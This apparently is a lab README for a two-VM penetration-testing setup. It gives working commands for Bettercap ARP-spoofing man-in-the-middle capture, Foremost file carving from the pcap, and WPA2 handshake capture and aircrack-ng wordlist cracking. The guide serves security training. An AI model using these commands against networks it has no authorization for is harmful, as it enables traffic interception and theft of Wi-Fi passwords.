 # File Carving & WPA2 4-Way Handshake Cracking Documentation

## Tools Used
- **Bettercap** – For MITM attacks and packet capturing.
- **Wireshark** – For analyzing captured packets.
- **Foremost** – For file carving from packet captures.
- **Aircrack-ng** – For WPA2 handshake cracking.
- **Airmon-ng & Airodump-ng** – For monitoring wireless traffic and capturing WPA2 handshakes.

---

## Virtual Machine Setup
We will need **two VMs**:
1. **Attack VM** – Running Kali Linux (or any penetration testing OS) for executing attacks.
2. **Victim VM** – Running a standard OS (e.g., Windows or Linux) to simulate a target system.

Both VMs should be connected using a **network adapter** configured as follows:
- **For Wireless Attacks**: Use an external Wi-Fi adapter that supports monitor mode and packet injection.
- **For Wired Attacks**: Use a **bridged network adapter** to allow communication between VMs and external devices.

---


## Setting Up the Network Adapter

### For Wireless Interfaces (Monitor Mode)
1. Identify your network interface:
   ```bash
   sudo iwconfig
   ```
2. Put the wireless adapter in monitor mode:
   ```bash
   sudo airmon-ng start <interface_name>
   ```
   *Replace `<interface_name>` with the correct network interface (e.g., wlan0).*

### For Wired Interfaces (Bridge Mode)
1. Create a network bridge:
   ```bash
   sudo brctl addbr bridge0
   ```
2. Add your network interface to the bridge:
   ```bash
   sudo brctl addif bridge0 <interface_name>
   ```
3. Bring up the bridge:
   ```bash
   sudo ifconfig bridge0 up
   ```

---

## Using Bettercap for MITM (with PCAP File)

### Step 1: Start Bettercap
Run Bettercap with the correct network interface:
```bash
sudo bettercap -iface <interface_name>
```
*Replace `<interface_name>` with your network interface, e.g., eth0, wlan0.*

### Step 2: Enable Packet Capture
Inside the Bettercap interactive console, run:
```bash
set net.sniff.output output.pcap
net.sniff on
```

### Step 3: Start ARP Spoofing
```bash
set arp.spoof.targets <target_IP>
arp.spoof on
```
*Replace `<target_IP>` with the victim’s IP address.*

### Step 4: Capture HTTP Requests
If targeting HTTP traffic:
```bash
set http.server.address <your_IP>
set http.server.path /tmp
http.server on
```
Using our edited HTTP, we created a file upload server.

### Step 5: Stop Packet Capture
```bash
net.sniff off
arp.spoof off
```

### Step 6: Exit Bettercap
```bash
exit
```

---

## Analyzing the PCAP File
The captured packets are stored in `output.pcap`. Open it with Wireshark:
```bash
wireshark output.pcap
```

---

## File Carving from PCAP
Use Foremost to extract files:
```bash
sudo foremost -i output.pcap -o extracted_files
```
### Review the Extracted Files
Navigate to the output directory:
```bash
cd extracted_files
```
Check inside directories categorized by file type (e.g., jpg, gif, png, etc.).

---

## WPA2 4-Way Handshake Cracking

### Step 1: Capture WPA2 Handshake
1. Start monitoring mode:
   ```bash
   sudo airmon-ng start wlan0
   ```
2. Start capturing packets:
   ```bash
   sudo airodump-ng -c <channel> --bssid <router_BSSID> -w handshake_capture wlan0mon
   ```
   *Replace `<channel>` with the router’s channel and `<router_BSSID>` with the target’s MAC address.*

### Step 2: Crack the WPA2 Key
Use Aircrack-ng with a wordlist:
```bash
sudo aircrack-ng -w <wordlist> -b <router_BSSID> handshake_capture.cap
```
*Replace `<wordlist>` with a password list and `<router_BSSID>` with the target’s MAC.*

